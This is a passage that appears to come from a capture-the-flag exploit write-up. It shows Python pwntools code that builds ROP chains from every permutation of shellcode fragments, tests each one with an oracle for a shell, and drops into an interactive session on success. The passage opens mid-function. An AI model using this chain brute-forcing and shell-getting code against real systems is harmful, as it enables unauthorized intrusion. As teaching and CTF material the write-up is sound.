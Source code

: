 ```python

        """
        Here we're just trying to read with a one second timeout.
        If we don't get an EOF error, we probably just got shell.
        """
        if p.recv(1024, 1):
            if stay:
                p.interactive()
            r=True
    except EOFError:
        pass
    finally:
        p.close()

    return r


def dothething(com):
    """
    Take a permutation of the shellcode fragments and transform
    them into a chain of addresses. We'll then test the chain
    with the oracle function and report if there was a success.
    """
    chain = list(map(lambda x: m[x], com))
    if oracle(chain):
        print disasm(''.join(com))
        print chain
        print '=' * 20
        return chain
    return None

"""
To speed things up, we're going to use a python multiprocessing
pool. We can deligate all the rop chain permutations to the pool.
Since python does weird stuff with their multiprocessing libraries,
we'll need to be careful to only pass back and forth simple objects
to and from the workers.
"""
pool = multiprocessing.Pool(500) # you may want to lower this on your machine
chains = pool.map(dothething, itertools.permutations(c))
pool.close()

"""
Filter out the None's to just get the chains that passed.
"""
chains = filter(lambda x: x is not None, chains)

"""
Try them all to see if they work.
"""
local=0
for i in chains:
    oracle(i, False, True)
```

Now go wash your damn hands.
